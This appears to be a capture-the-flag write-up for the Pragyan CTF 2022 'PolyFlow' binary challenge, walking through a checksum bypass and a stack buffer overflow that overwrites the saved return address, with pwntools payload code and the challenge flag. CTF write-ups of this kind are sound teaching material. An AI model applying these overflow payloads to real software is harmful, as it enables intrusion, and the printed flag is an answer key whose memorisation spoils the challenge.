




# Pragyan CTF 2022 - PolyFlow

Origin challenge link: https://ctf.pragyan.org/

You can also download challenge file in my repo: [Poly-flow.zip](Poly-flow.zip)

There will be 1 file in zip:

- Poly-flow

Download challenge and let's start!

# 1. Find bug

First, we will use `file` to check for basic information:

```
$ file Poly-flow
Poly-flow: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=681641744fb6d6d68665b3a0a2a1ebac46415b0e, for GNU/Linux 3.2.0, not stripped
```

This is a 32-bit file without being stripped. Next, let's use `checksec` to check for all defences:

```
$ checksec Poly-flow
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

We can see that `Canary found` and `NX enabled`. Finally, let's fire up ghidra and decompile to understand how the program works. 

The main function will ask for input, then check it and if it's correct, we will have input function:



At check function, it will add 4 bytes in first 16 bytes of our input and compare the result with `0xdeadbeef`



The sum inside loop will work like this (hex format) on stack if we input `aaaabaaacaaadaaa`:

```
 a a a a           61 61 61 61
 a a a b    -->    61 61 61 62
 a a a c           61 61 61 63
 a a a d           61 61 61 64
-------------------------------
                   85 85 85 8a
```

Because the sum will result in 0x1xx so from `0x61*4 = 0x184 + 1 = 0x185`. And after the sum, if it's equal with `0xdeadbeef` we will go into input function:



The var `i.0` is a global and at the begining of program, its value is 0. We can notice that the local variable local_1c is defined just 20 bytes but we can input upto 36 bytes --> **Buffer Overflow**.

That's all we can find. Let's move on next part: Brainstorming!

# 2. Brainstorming

Of course the first thing we need to do is to make sure we can get to the input function. To do that, we need to satisfy the check function.

After that, we will Buffer Overflow to execute the input function 5 times so that `i.0` will have the value of 5 and the flag will be printed.

- Summary:
  1. Satisfy check() function
  2. Get flag

# 3. Exploit

### Stage 1: Satisfy check() function

As we know that in check(), it will add 4 bytes of first 16 bytes and then compare with `0xdeadbeef`. So we will split the 16 bytes into 4 bytes per line like above. 

First, we will not want it to be 0x1xx because that will make us confused. We will take each byte of `0xdeadbeef` and divided with 4 to get the proper value for each byte of input (Python code):

```
0xde / 4        = 55.5
(0xde - 2) / 4  = 55.0 = 0x37

0xad / 4        = 43.25
(0xad - 1) / 4  = 43.0 = 0x2b

0xbe / 4        = 47.5
(0xbe - 2) / 4  = 47.0 = 0x2f

0xef / 4        = 59.75
(0xef - 3) / 4  = 59.0 = 0x3b
```

So the stack will sum 4 byte like this (hex format):

```
37 2b 2f 3b
37 2b 2f 3b
37 2b 2f 3b
39 2c 31 3e
-----------
de ad be ef
```

But wait, the stack is in a reverse order with this so we will need to change all collumns like this:

```
3b 2f 2b 37
3b 2f 2b 37
3b 2f 2b 37
3e 31 2c 39
-----------
ef be ad de
```


And we get the payload for scanf():

```
payload1 = \x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3e\x31\x2c\x39
```

Input this with pwntool and we jump into input() function.

```
payload1 = b'\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3e\x31\x2c\x39'
p.sendlineafter(b'passphrase: ', payload1)
```

And now, let's move on the final stage: Get flag!

### Stage 2: Get flag

We can see that after scanf() input 16 bytes, then `\n` byte is remain and will go into fgets. That's why we can just input scanf() and then we stop. So that we will add some payload for fgets at `payload1` above so that it will be passed to fgets after scanf.

We know we have **Buffer Overflow** so let's find the offset with cyclic first(). After a while trying, we know that offset is 28 and after 28 byte is saved eip.

We can also see that the global var `i.0` will be increased 1 when execute input() function. So we will want to overwrite the saved eip with the input() function to make `i.0` contains 5, which help us get the flag.

```
# scanf()
payload1 = b'\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3e\x31\x2c\x39'

# fgets
payload1 += b'A'*(28)             # Padding
payload1 += p32(0x08049860)       # input function
p.sendlineafter(b'passphrase: ', payload1)

for i in range(4):
    p.sendline(payload1[16:])     # The same with padding and input() function
```

Full script: [solve.py](solve.py)

# 4. Get flag



Flag is `p_ctf{mUlT1Pl3_BuFf3R_Ov3rF|0w}`